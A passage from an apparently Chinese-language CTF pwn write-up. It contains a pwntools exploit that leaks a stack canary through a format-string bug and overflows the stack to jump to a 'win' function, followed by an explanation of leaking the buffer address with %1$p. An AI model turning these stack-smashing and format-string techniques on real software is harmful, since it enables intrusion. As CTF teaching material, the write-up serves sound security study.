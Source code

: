 ```python

conn.sendlineafter('3. Exit the battle \n', '2')
# Stack overflow, bypassing the canary
conn.sendline("%23$p")
canary = int(conn.recvuntil('\n'), 16)
log.success('canary is {:x}'.format(canary))
conn.recvuntil('Exit the battle \n')
conn.sendline('1')

payload = 'A' * 0x88 + p64(canary) + 'AAAAAAAA' + p64(win)
conn.sendline(payload)
recv = rconn.recvall()
log.success("recv is {}".format(recv))
conn.sendlineafter('Exit the battle \n', '3')
```

## 方法二：

直接通过格式化字符串修改返回地址，首先我们得**泄露buffer的地址**，怎么找呢，通过格式化字符串漏洞，传递`%1$p`，泄露偏移为1的内容，这个偏移为1的是什么内容呢？是**RSI的内容**，RSI**记录了格式化字符串的地址**，**也就是buf的首地址**。64位程序传递前六个参数通过`RDI`、`RSI`、`RDX`、`RCX`、`R8`、`R9`传递，可以传递多个`%p`查看一下，前五个输出的是不是`RSI`、`RDX`、`RCX`、`R8`、`R9`寄存器中的内容。

![image-20200816134436146](../.gitbook/assets/image-20200816134436146.png)
